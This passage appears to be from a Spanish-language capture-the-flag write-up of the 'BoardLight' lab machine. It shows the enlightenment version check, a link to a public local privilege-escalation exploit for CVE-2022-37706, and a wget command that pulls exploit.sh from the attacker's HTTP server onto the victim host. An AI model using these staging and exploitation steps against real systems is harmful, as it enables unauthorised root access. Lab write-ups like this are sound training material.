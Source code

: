 Listamos la `versión` de `enlightenment`

```
larissa@boardlight:~$ enlightenment --version
ESTART: 0.00046 [0.00046] - Begin Startup
ESTART: 0.00144 [0.00098] - Signal Trap
ESTART: 0.00145 [0.00001] - Signal Trap Done
ESTART: 0.00279 [0.00135] - Eina Init
ESTART: 0.00526 [0.00246] - Eina Init Done
ESTART: 0.00529 [0.00003] - Determine Prefix
ESTART: 0.00614 [0.00085] - Determine Prefix Done
ESTART: 0.00617 [0.00003] - Environment Variables
ESTART: 0.00619 [0.00002] - Environment Variables Done
ESTART: 0.00619 [0.00001] - Parse Arguments
Version: 0.23.1
E: Begin Shutdown Procedure!
```

Buscamos `exploits` para esta `versión` del `binario` y encontramos uno para versiones menores de la `0.25.3`

![](/assets/img/BoardLight/image_7.png)

Nos descargamos este `exploit` [https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git) en nuestro equipo y montamos un `servidor http` con `python` en la ruta en la que se encuentra el `exploit`

```
# python -m http.server 80
```

Nos descargamos el `exploit` en la `máquina víctima`

```
larissa@boardlight:~$ wget http://10.10.16.28/exploit.sh
--2024-10-11 06:27:09--  http://10.10.16.28/exploit.sh
Connecting to 10.10.16.28:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 709 [text/x-sh]
Saving to: ‘exploit.sh’

exploit.sh                        100%[=============================================================>]     709  --.-KB/s    in 0s      

2024-10-11 06:27:09 (75.2 MB/s) - ‘exploit.sh’ saved [709/709]
```
